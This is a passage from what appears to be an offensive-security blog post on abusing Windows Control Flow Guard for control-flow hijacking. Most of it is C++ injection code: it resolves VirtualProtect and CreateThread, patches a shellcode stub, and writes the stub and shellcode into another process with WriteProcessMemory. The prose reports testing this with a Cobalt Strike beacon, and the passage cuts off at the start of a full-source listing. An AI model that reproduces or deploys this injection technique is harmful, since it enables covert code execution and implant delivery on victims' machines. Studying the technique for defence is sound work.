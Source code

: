 ```cpp
};
HMODULE kernel32 = GetModuleHandleA("KERNEL32.DLL");
FARPROC _VirtualProtect = GetProcAddress(kernel32, "VirtualProtect");
FARPROC _CreateThread = GetProcAddress(kernel32, "CreateThread");
BYTE* shellcode_address = base_address + 0xc0;
memcpy(stub + 44, &__guard_check_icall_fptr, sizeof(FARPROC*));
memcpy(stub + 68, &_VirtualProtect, sizeof(FARPROC));
memcpy(stub + 93, __guard_check_icall_fptr, sizeof(FARPROC));
memcpy(stub + 138, &shellcode_address, sizeof(FARPROC));
memcpy(stub + 148, &_CreateThread, sizeof(FARPROC));

WriteProcessMemory(process, base_address, stub, sizeof(stub), NULL);
WriteProcessMemory(process, shellcode_address, shellcode, sizeof(shellcode), NULL);
```

Replacing the shellcode for a Cobalt Strike beacon, we can now give it a test. 

_Note: avoid msfvenom's `windows/x64/exec` shellcode as it crashes the target process after execution and could give to misleading results here._

![Testing POC with Cobalt Strike beacon now that we have Shellcode Stub](/assets/img/posts/abusing-control-flow-guard-for-control-flow-hijacking/final_poc_test.png)

# Full Source Code

```cpp
#include <windows.h>
#include <stdio.h>

#pragma region [colour codes]

#define COLOUR_DEFAULT "\033[0m"
#define COLOUR_BOLD "\033[1m"
#define COLOUR_UNDERLINE "\033[4m"
#define COLOUR_NO_UNDERLINE "\033[24m"
#define COLOUR_NEGATIVE "\033[7m"
#define COLOUR_POSITIVE "\033[27m"
#define COLOUR_BLACK "\033[30m"
#define COLOUR_RED "\033[31m"
#define COLOUR_GREEN "\033[32m"
#define COLOUR_YELLOW "\033[33m"
#define COLOUR_BLUE "\033[34m"
#define COLOUR_MAGENTA "\033[35m"
#define COLOUR_CYAN "\033[36m"
#define COLOUR_LIGHTGRAY "\033[37m"
#define COLOUR_DARKGRAY "\033[90m"
#define COLOUR_LIGHTRED "\033[91m"
#define COLOUR_LIGHTGREEN "\033[92m"
```